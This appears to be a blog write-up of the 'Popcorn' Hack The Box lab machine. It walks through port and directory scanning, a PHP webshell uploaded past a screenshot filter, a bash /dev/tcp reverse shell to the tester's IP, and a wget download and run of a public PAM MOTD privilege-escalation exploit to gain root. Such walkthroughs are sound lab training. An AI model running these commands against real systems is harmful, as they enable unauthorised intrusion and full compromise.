 ```yaml
---
layout: post
title:  "Popcorn"
date:   2023-11-02 22:55:30 -0400
categories: jekyll update
---
```


Popcorn

<img
  src="/assets/popcorrn.png"
  alt="featured image"
  class="featured-image-post"
/>

## nmap
```
└─# nmap -p- 10.10.10.6     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-02 18:53 EDT
Nmap scan report for 10.10.10.6
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 36.97 seconds
```

```
└─# nmap -p 22,80 -sC -sV 10.10.10.6           
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-02 18:56 EDT
Nmap scan report for 10.10.10.6
Host is up (0.048s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.11 seconds
```

## gobuster
```
└─# gobuster dir -u http://10.10.10.6 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --timeout 20s 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.6
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 20s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 177]
/test                 (Status: 200) [Size: 47016]
/torrent              (Status: 301) [Size: 310] [--> http://10.10.10.6/torrent/]
/rename               (Status: 301) [Size: 309] [--> http://10.10.10.6/rename/]
Progress: 28643 / 220561 (12.99%)[ERROR] Get "http://10.10.10.6/AbleFtp": context
```

### 10.10.10.6:80
<img
  src="/assets/Pasted image 20231102185842.png"
  alt="featured image"
  class="featured-image-post"
/>

### 10.10.10.6/test
![[Pasted image 20231102214854.png]]

### 10.10.10.6/rename
![[Pasted image 20231102215443.png]]

### 10.10.10.6/torrent
![[Pasted image 20231102215613.png]]

![[Pasted image 20231102215710.png]]

After registering an account, I browsed around and found an upload page. I downloaded a legit torrent file and uploaded it.
![[Pasted image 20231102222727.png]]
![[Pasted image 20231102222630.png]]

After uploading, there is a button to upload a screenshot.
![[Pasted image 20231102222830.png]]
![[Pasted image 20231102222908.png]]

I chose a random screenshot, this kali  logo and uploaded it.
![[Pasted image 20231102224231.png]]

I captured the request in Burp and changed the extension to php and the content to a php webshell. At first I had to play around with Repeater to see which filters were in place, but this way submitted without errors.
![[Pasted image 20231102224207.png]]

I refreshed and there is the screenshot.
![[Pasted image 20231102224533.png]]

After some guessing I found the image at `/torrent/upload`
![[Pasted image 20231102225457.png]]
![[Pasted image 20231102225543.png]]

I test out execution with a simple`id` command with curl and its successful:
```
┌──(root💀kali)-[/home/spacemoth/machines/popcorn]
└─# curl http://10.10.10.6/torrent/upload/2becb0265247e56217dcac4f5ff7308699ee0d3e.php?cmd=id      
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
```

## Shell

I will start netcat and use this line to get a reverse shell:
```
curl http://10.10.10.6/torrent/upload/2becb0265247e56217dcac4f5ff7308699ee0d3e.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.24/443 0>&1'"
```

```
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.6] 36235
bash: no job control in this shell                                                                                                               
www-data@popcorn:/var/www/torrent/upload$
```

I got the shell and now I will upgrade:
```
python -c 'import pty;pty.spawn("bash")'
```

Obtain user flag:
```
www-data@popcorn:/home$ ls 
ls
george
www-data@popcorn:/home$ cat george
cat george
cat: george: Is a directory
www-data@popcorn:/home$ cd george
cd george
www-data@popcorn:/home/george$ ls
ls
torrenthoster.zip  user.txt
www-data@popcorn:/home/george$ cat user.txt                                      cat user.txt                                                            
3b0************************
```

## PrivEsc

I found `motd.legal-displayed` and knowing this file can lead to code execution I found this exploit after some googling, https://www.exploit-db.com/exploits/14339. I downloaded the exploit and hosted it on my machine:
```
└─$ python2.7 -m SimpleHTTPServer 1337                                  
Serving HTTP on 0.0.0.0 port 1337 ...
```

On victim machine I used `wget` to download it:
```
www-data@popcorn:/tmp$ wget http://10.10.14.24:1337/14339.sh 
wget http://10.10.14.24:1337/14339.sh 
--2023-11-03 05:15:40--  http://10.10.14.24:1337/14339.sh
Connecting to 10.10.14.24:1337... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3042 (3.0K) [text/x-sh]
Saving to: `14339.sh'

100%[======================================>] 3,042       --.-K/s   in 0s      

2023-11-03 05:15:40 (124 MB/s) - `14339.sh' saved [3042/3042]
```

I then chmod the file and ran it, which lead to root:
```
www-data@popcorn:/tmp$ chmod +x 14339.sh
chmod +x 14339.sh
www-data@popcorn:/tmp$ ./14339.sh
./14339.sh
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: toor

root@popcorn:/tmp# whoami
whoami
root
```

##### Root Flag
```
root@popcorn:/# cd root
cd root
root@popcorn:~# ls
ls
root.txt
root@popcorn:~# cat root.txt
cat root.txt
850*****************************
```
